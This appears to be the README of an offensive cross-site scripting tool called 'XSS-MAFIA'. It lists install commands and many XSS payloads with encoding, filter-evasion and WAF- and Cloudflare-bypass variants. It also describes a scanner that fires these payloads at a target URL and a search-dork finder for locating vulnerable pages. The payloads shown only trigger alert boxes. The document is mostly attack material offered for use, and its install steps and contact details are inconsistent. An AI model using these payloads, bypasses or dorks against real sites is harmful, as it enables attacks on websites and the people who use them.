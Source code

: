 # XSS-MAFIA

# Note! : We don't Accept any responsibility for any illegal usage.

# cd Installation cd

git clone https://github.com/spyeye-dz/XSS-Damn-you-Khalil-Djaariri

cd XSS-FSOCIETY

pip3 install -r requirements.txt

python3 payloader.py

card_file_box Features card_file_box

*Basic Payload

Sets default parameter to :<script>alert(1)</script>
*Div Payload

Sets default parameter to :<div onpointerover='alert(1)'>MOVE HERE</div
*Img Payload

Sets default parameter to :<img src=x onerror=alert('1');>
*Body Payload

Sets default parameter to :<body ontouchstart=alert(1)>
*Svg Payload

Sets default parameter to :<svg onload=alert('1')>
*Enter Your Payload

Encodes payload writed by user
*Payload Generator Parameter

Encodes payload on selected tag

* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT

*Xss Scanner

Initially you'll need to enter url of target Please enter the url like this example==>e.g target -----> http://target.com/index.php?name= Selected for scanning payload list

    BASIC PAYLOAD LIST ==> Payload list consisting of script tag
    DIV PAYLOAD LIST ==> Payload list consisting of div tag
    IMG PAYLOAD LIST ==> Payload list consisting of img tag
    BODY PAYLOAD LIST ==> Payload list consisting of body tag
    SVG PAYLOAD LIST ==> Payload list consisting of svg tag
    MIXED PAYLOAD LIST ==> Payload list consisting of all tag
    ENTER FILE PATH ==> Payload list determined by the user ,Please enter the url like this example..! (e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.
*Xss Dork Finder

First enter the dork for searching: e.g---->inurl:"search.php?q=" Results will be saved in "dork.txt" after scanning.
Known Issues
Fixed:

    Unicode errors

    Module errors

Important:

If you want to use tool for python3 installed on Windows download below link:
https://github.com/PHOENIX7713/XSS-PHOENIX.git
Bugs and enhancements

For bug reports or enhancements, please open an issue here.
Support and Donations

Contact us with email oanonymous85@gmail.com.com.tr

Copyright 2020
